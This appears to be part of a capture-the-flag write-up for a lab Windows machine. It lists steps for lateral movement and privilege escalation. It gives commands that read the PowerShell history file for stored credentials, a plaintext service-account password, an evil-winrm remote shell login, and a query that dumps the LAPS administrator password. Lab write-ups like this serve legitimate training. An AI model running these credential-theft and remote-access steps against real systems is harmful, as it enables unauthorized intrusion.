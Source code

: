 
# Lateral Movement
- The command line history shows new login credentials. 
- Evil-winrm using the obtained credentials `svc_deploy`.
# Privilege Escalation
- `svc_deploy` is a member of `LAPS_Readers` group.
- Running `Get-ADComputer DC01 -property 'ms-mcs-admpwd'` shows the password for the administrator.
- Evil-winrm as admin. 
 
 ## Enumeration
```powershell
# Read history
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![screenshot](/assets/images/timelapse19.png)
## Notes
```text
svc_deploy : E3R$Q62^12p7PLlC%KWaxuaV
```

## Attempts
### WinPEAS
Program 'peas.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted software.
![screenshot](/assets/images/timelapse17.png)
## Evil-winrm as `svc_deploy`
```sh
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```
